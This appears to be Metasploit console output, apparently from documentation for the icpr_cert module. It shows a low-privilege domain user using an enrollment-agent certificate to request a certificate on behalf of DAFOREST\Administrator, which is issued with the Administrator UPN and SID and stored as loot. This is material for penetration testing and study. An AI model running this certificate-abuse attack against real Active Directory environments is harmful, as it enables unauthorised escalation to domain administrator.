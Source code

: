 ```msf
Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  User                            yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216154930_default_unknown_win
                  dows.ad.cs_104207.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
